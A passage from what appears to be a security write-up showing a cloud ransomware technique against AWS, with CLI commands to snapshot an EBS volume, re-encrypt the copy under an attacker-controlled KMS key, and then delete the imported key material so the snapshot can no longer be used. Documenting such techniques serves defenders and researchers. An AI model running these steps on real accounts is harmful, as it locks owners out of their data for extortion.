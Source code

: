 Create a volume snapshot within the same region.

```
aws ec2 create-snapshot --region us-east-1 --volume-id <vol-id>
```

![image15](/img/kms-ransomware/ec2-create-snapshot.png){: width="720" .mx-auto .d-block }

Copy the newly created snapshot and use the attacker key to encrypt an attacker controlled snapshot.

```
aws ec2 copy-snapshot --region us-east-1 --source-region us-east-1 --source-snapshot-id <snap-id> --encrypted --kms-key-id <key-id>
```

![image16](/img/kms-ransomware/ec2-copy-snapshot.png){: width="720" .mx-auto .d-block }

Delete imported key material.

```
aws kms delete-imported-key-material --key-id 8a5bf6e0-bc70-47fb-9d13-a98bb8afb5f2
```

![image17](/img/kms-ransomware/delete2.png){: width="720" .mx-auto .d-block }

Let's try copying the snapshot again. It fails as the imported key material is no longer available, displaying a snapshot ID to reference.

![image18](/img/kms-ransomware/copyfail.png){: width="720" .mx-auto .d-block }
